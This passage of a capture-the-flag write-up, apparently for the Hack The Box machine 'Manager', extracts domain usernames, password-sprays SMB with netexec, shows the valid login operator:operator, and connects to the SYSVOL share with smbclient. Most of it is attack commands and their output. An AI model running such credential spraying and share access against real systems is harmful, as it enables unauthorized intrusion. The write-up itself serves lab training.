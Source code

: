 Copy to the file username.txt and extract only the usernames from the lines in the username.txt file that match the specified pattern and writes them to a new file called user.txt
```python
kali Medium/Manager » cat username.txt | sed -n 's/.*MANAGER\\\(.*\) .*/\1/p' > user.txt
administrator
guest
krbtgt
zhong
cheng
ryan
raven
jinWoo
chinHae
operator
```
Lets Password spraying for username 'operator' 

```bash
kali Medium/Manager » netexec smb 10.10.11.236  -u user.txt -p 'user.txt' --no-bruteforce
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinWoo:jinWoo STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinHae:chinHae STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
```
We got credential for user operator. The password is 'operator'. 
<br>

So we used smbclient to login with operator and with its creds.

![alt text](/manager/operator.png)

There is SYSVOL file share


 ```bash
 smbclient \\\\10.129.143.125\\SYSVOL -U operator
 ```

 